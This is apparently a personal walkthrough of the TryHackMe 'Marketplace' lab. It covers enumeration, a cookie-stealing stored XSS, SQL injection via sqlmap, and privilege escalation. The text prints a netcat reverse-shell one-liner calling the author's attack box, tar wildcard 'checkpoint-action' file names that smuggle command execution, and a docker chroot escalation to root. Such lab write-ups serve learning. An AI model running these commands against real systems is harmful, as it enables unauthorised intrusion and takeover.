









THM: The Marketplace
Table of Contents
Reconnaisance
Running a quick nmap scan to get some initial information on the
target system:
nmap -sV -sC -oN nmap.initial 10.10.146.88
It gives us lot’s of information:
Nmap scan report for ip-10-10-146-88.eu-west-1.compute.internal (10.10.146.88) Host is up (0.00021s latency). Not shown: 997 filtered ports PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA) | 256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA) |_ 256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (EdDSA) 80/tcp open http nginx 1.19.2 | http-robots.txt: 1 disallowed entry |_/admin |_http-server-header: nginx/1.19.2 |_http-title: The Marketplace 32768/tcp open http Node.js (Express middleware) | http-robots.txt: 1 disallowed entry |_/admin |_http-title: The Marketplace MAC Address: 02:3C:29:73:B9:79 (Unknown) Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
First things first, the target machine runs an ssh and (at least) one http server. After going for some web enumeration, I started this fuller scan, to check whether I had missed something with the previous one.
nmap -p- -T4 10.10.146.88 | tee nmap.full
It’s output was the same:
Nmap scan report for ip-10-10-146-88.eu-west-1.compute.internal (10.10.146.88) Host is up (0.00040s latency). Not shown: 65532 filtered ports PORT STATE SERVICE 22/tcp open ssh 80/tcp open http 32768/tcp open filenet-tms MAC Address: 02:3C:29:73:B9:79 (Unknown)
Web Analysis
I checked for robots.txt, security.txt, sitemap.xml files, out of
which only the first existed, without much information available to us:

Figure 1: Robots.txt contents
Then, I ran gobuster while manually checking the website out:
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -u http://10.10.146.88 | tee gobuster.bigtxt
Its output was not much
============================================================== Gobuster v3.0.1 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_) =============================================================== [+] Url: http://10.10.146.88 [+] Threads: 10 [+] Wordlist: /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt [+] Status codes: 200,204,301,302,307,401,403 [+] User Agent: gobuster/3.0.1 [+] Timeout: 10s =============================================================== 2023/10/22 16:58:58 Starting gobuster =============================================================== /.htaccess (Status: 403) /.htpasswd (Status: 403) /ADMIN (Status: 403) /Admin (Status: 403) /Login (Status: 200) /admin (Status: 403) /images (Status: 301) /login (Status: 200) /messages (Status: 302) /new (Status: 302) /robots.txt (Status: 200) /signup (Status: 200) /stylesheets (Status: 301) =============================================================== 2023/10/22 16:59:32 Finished =========================================================
Creating a test user
Since the site was way too simple (I think about 4 almost blank
pages), I created a test user to see what extra functionality logging
in offered:
Figure 2: Allowing for new listings and messages(!)
At this point I’m thinking that a Blind XSS might be the way to go.
In the new listings page we get that no file may be uploaded due to security issues. That’s not really a problem

Figure 3: New listings page
I then created a listing with a sample XSS payload for proof of concept. It worked fine.

Figure 4: Creating a new listing

Figure 5: Working XSS alert(1) payload
The problem, however, is that this is not enough. Ideally, I would have to use an actual payload on a page that would be viewed by the admins: These two buttons might be helpful for that, but for the time being, checking the website’s cookies seems equally promising

Figure 6: Way to contact PPL (pun intended)
The cookie is of the typical form:
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9eyJ1c2VySWQiOjYsInVzZXJuYW1lIjoidGVzdCIsImFkbWluIjpmYWxzZSwiaWF0IjoxNjk3OTkwMTQ4fQNxRVUKaYnmQAxWMchI-rMWA2C0FFOx-XXXdtV20Xe04
which, after decoding (it obviously is base64 encoded) reveals its three parts:
{"alg":"HS256","typ":"JWT"}
{"userId":6,"username":"test","admin":false,"iat":1697990148}
qEU i@
V1H`Suvvw
At this point I could try crafting a cookie like this:
{"alg":"none","typ":"JWT"}
{"userId":0,"username":"admin","admin":true,"iat":1697990148}
However, I do not know the username associated with ID:0, and I know
for a fact that admin user does not exists (I tried creating a user
<space>admin, hoping that would get me somewhere)
XSS Exploitation
I first created a listing that would get me the cookie of anyone viewing it:

Figure 7: Malicious listing
I, then tested it on myself, and it worked just fine, so I proceeded reporting it to the admins and hoping that someone would view it. It did not disappoint.
When I got back from my water break, a cookie was waiting for me!!

Figure 8: Admin’s cookieeeeeee!
I used it and logged into the /admin page: The first flag was waiting
for me there !

Figure 9: We’re getting somewhere.
We see now that :
- There are two administrators (users 4 and 5 are my creation :P),
jakeandmichael. Ideally we would find a way to log in as either one, through SSH to the target machine. - I can not give admin rights, I can only delete accounts.
- The admin’s messages are empty, so there is unfortunately no secret password there.
I got stuck here, the only two options I’m thinking of are:
- Trying to bruteforce one of the two admin accounts
- Hoping for a known vulnerability of either
nginxornode.jear
Avoiding bruteforce when another option is possible, I opted for 2.
- Though I found some vulnerabilities, potentially useful under
different circumstances, for
nginx 1.19.2, no exploit was readily available on exploit-db, and I doubt that a medium difficulty room would require me to develop my own exploit. - I could not find any information on
node.jshowever. If any reader has any suggestions for this part, I would love to hear them.
Seems like 1 is sadly the way to go… It was not. (I did not like that option, and I was just sure I had missed something, so I searched for a writeup online, I had overlooked an SQL Injection entry point)
SQL Injection
More specifically, when selecting a user in the administration panel,
the website would point us to /admin?user=1, which after testing with
the old classic ' OR 1=1;--, shows an error:

Figure 10: SQL Error
Seeing that an SQLi could be beneficial, I used sqlmap:
sqlmap -u http://10.10.146.88/admin?user=1 --batch
It provided no output, and I did not like it, so I checked the output
for any hints why that happened. Immediately HTTP error code 403
hinted the obvious: I had not taken advantage of my admin cookie.
Even after putting my cookie on, however, the problem persisted, and
even caused the cookie to be renewed, and no longer valid. It took
some tinkering for me to realize (through experimentation) that the
problem was in the sheer volume of my requests, and adding --delay=2
eventually fixed the problem:
sqlmap --url='http://10.10.146.88/admin?user=1' --cookie='token=DATOKEN' --technique=U --delay=2 --dump
Important notice: make sure to renew your attack box’s timer every now and then especially if you take breaks to tidy up the house while a script is running. I did not, and lost all the output of sqlmap, on the very first time it actually worked.
Long story short, we get some really nice data through sqlmap, but the
most important is hidden in a message there: we get the password for jake
And after logging in we get the second flag:

Figure 11: The second flag
Privilege escalation
Knowing that the last flag is a file called root.txt I used find
hoping its output to show me its location. No luck though.
Next step was to check what I can sudo:
sudo -lshow that I can run a specific file as sudo without password- After inspecting it becomes relatively obvious that what I want now
is to use a properly named file to mess with the
tar cf /opt/backups/backup.tar *command that runs within that script. I did not remember exactly how, but a little bit of googling saved the day: (https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)
I created a directory and worked in it (wrk), but it is not necessary.
In fact, this will work anywhere!
echo "rm -f /tmp/lhennp;mkfifo /tmp/lhennp; nc 10.10.199.235 6969 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh echo "" > "--checkpoint-action=exec=sh shell.sh" echo "" > --checkpoint=1
Please do not make the mistake of running the command as is :P. Run it as michael with:j
sudo -u michael /opt/backups/backup.sh
Finally we get the rev shell, and make it work a little bit better with some python:
python -c 'import pty; pty.spawn("/bin/bash")'
The thing is that michael does not give us any advantage that jake
does not have. If anything, michael can not even run sudo -l without a
password! Browsing through my privesc notes, I saw a hint about id
which showed that michael is a member of the docker group
Listing the docker running instances got me thinking of using them to get root privileges, which actually worked using the second command, found in https://gtfobins.github.io/gtfobins/docker/
docker ps
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
After becoming root there was nothing else to do. It was finally over.

Figure 12: THE END
Conclusion
I liked the room, a lot and it was on a good level for me to try and
complete, being neither too easy nor too hard. Not noticing the SQL
injection is something I plan to work on, and I am not satisfied with
my performance in the post-exploitation stage, getting stuck before
using the id command, but this is part of learning so… C’est la vie.